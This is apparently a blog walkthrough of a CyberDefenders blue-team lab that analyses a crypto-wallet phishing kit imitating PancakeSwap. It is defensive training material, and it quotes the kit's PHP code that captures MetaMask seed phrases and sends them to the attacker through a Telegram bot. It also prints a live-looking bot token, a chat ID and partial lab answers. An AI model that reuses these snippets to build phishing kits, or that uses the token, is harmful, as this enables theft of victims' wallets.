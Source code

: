 ```yaml
---
title: "GrabThePhisher"
classes: wide
header:
  teaser: /assets/images/Covers/GrabThePhisher.jpeg
ribbon:   Green
description: "A Walkthrough to the Cyberdefenders blue team lab focusing on Threat Intel and Reverse Engineering."
categories:
  - Reverse Engineering
toc: true
---
```




# [**GrabThePhisher**](https://cyberdefenders.org/blueteam-ctf-challenges/95/)
## **Scenario**

An attacker compromised a server and impersonated `https://pancakeswap.finance/`, a decentralized exchange native to BNB Chain, to host a phishing kit at `https://apankewk.soup.xyz/mainpage.php`. The attacker set it as an open directory with the file name `pankewk.zip`. 

Provided the phishing kit, you as a soc analyst are requested to analyze it and do your threat intel homework.

**Author:** Milann SHRESTHA     
**Difficulty:** Easy 

## Walkthrough
We start by unziping the file named `c75-GrabThePhisher.zip`, which has been provided, using `cyberdefenders.org` as password.

### **Q1:** Which wallet is used for asking the seed phrase?

After decompressing, we are left with a some files including an HTML file, exploring the content we see some wallets, only one off these wallets matches 

![alt text](/assets/images/reverse-engineering/GrabThePhisher/wallets.png)

Exploring the code, We see that only one wallet that has a "onclick" event for its buttons is `MetaMask` which uses JavaScript (vib(1); jj2 = true; jj = true;). This is commonly designed for asking the seed phrase.

![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-3.png)
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-1.png) 
![alt text](/assets/images/reverse-engineering/GrabThePhisher/index-2.png)

>**Answer:** `Meta****`

___

### **Q2:** What is the file name that has the code for the phishing kit?

Opening the Metamask folder, there are three files: 
- Fonts
- index.html
- metamask.php

Inside the `metamask.php`, we see thee following code:

```php
$date = date("m.d.Y");
$message = "<b>Welcome 2 The Jungle </b> 
    
<b>Wallet:</b> Metamask
<b>Phrase:</b> <code>" . $_POST["data"] . "</code>
<b>IP:</b> " .$_SERVER['REMOTE_ADDR'] . " | " .$geo. " | " .$city. "
<b>User:</b> " . $_SERVER['HTTP_USER_AGENT'] . "";
```
This constructs an HTML-formatted message containing:
- The wallet type (MetaMask is hardcoded).
- The recovery phrase entered by the victim `$_POST["data"]`.
- The attacker captures this phrase, which can be used to take full control of the victim’s wallet.
- The IP address, geolocation (country and city), and the user-agent string (browser and device information).

So, this is the file that  has the code for the phishing kit.

>**Answer:** `Meta****.php`

___

### **Q3:** In which language was the kit written?

>**Answer:** `PHP`

___


### **Q4:** What service does the kit use to retrieve the victim's machine information?

At the beginning the code, we see the following block:

```php
$request = file_get_contents("http://api.sypexgeo.net/json/".$_SERVER['REMOTE_ADDR']); 
$array = json_decode($request);
$geo = $array->country->name_en;
$city = $array->city->name_en;
```

This block of code uses the `Sypex Geo` API to retrieve the geolocation of the user based on their IP address `$_SERVER['REMOTE_ADDR']`, The country and city names are extracted and stored in $geo and $city.

>**Answer:** `Sy*** G**`

___

### **Q5:** How many seed phrases were already collected?

later in the code, we see this block:

```php
$_POST["import-account__secret-phrase"]. $text = $_POST['data']."\n";
@file_put_contents($_SERVER['DOCUMENT_ROOT'].'/log/'.'log.txt', $text, FILE_APPEND);	
```

Which is used to ensures the attacker has a backup of the stolen phrases, the recovery phrase `$_POST['data']` is also logged locally in a file `log.txt` on the server.

Now, we go the `log.txt`, we see that it has 3 already collected phrases:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/logs.png)

>**Answer:** `3`

___

### **Q6:** Write down the seed phrase of the most recent phishing incident?

>**Answer:** `father also recycle ******** ******** ******** ******** ******** ******** ******** ********`

___

### **Q7:** Which medium had been used for credential dumping?

The following block of code uses the `sendTel()` function to send a crafted message to a Telegram chat.

The Telegram Bot API is used here. The bot token `$token` and chat ID `$id` are hardcoded.

It constructs the Telegram API URL and uses `file_get_contents()` to send the message via the bot, delivering the stolen information (recovery phrase, IP, etc.) to the attacker's Telegram account.

```php
sendTel($message);  
	
function sendTel($message){
    $id = "5442785564"; 
    $token = "5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10"; 
    $filename = "https://api.telegram.org/bot".$token."/sendMessage?chat_id=".$id."&text=".urlencode($message)."&parse_mode=html";
    file_get_contents($filename);
```

>**Answer:** `Tele****`

___

### **Q8:** What is the token for the channel?

>**Answer:** `5457463144:AAG8t4k7e2e************************`

___

### **Q9:** What is the chat ID of the phisher's channel?

>**Answer:** `5442******`

___

### **Q10:** What are the allies of the phish kit developer?

The attacker had fingerprinted his code with the following greeting massage:

```php
/*
 With love and respect to all the hustler out there,
 This is a small gift to my brothers,
 All the best with your luck,
 
 Regards, 
 j1j1b1s@m3r0
 */
```

>**Answer:** `j1j1b1s@****`

___

### **Q11:** What is the full name of the Phish Actor?

Using the following request to the getChat method:

```php
https://api.telegram.org/bot5457463144:AAG8t4k7e2ew3tTi0IBShcWbSia0Irvxm10/getChat?chat_id=5442785564
```

The response is:

![alt text](/assets/images/reverse-engineering/GrabThePhisher/api_response.png)

>**Answer:** `Mar*** Aure****lius****`

___

### **Q12:** What is the username of the Phish Actor?

>**Answer:** `pumpkin****`


___
___

<p align="center"><span style="color:#00FFFF;">THE END</span></p>


___
___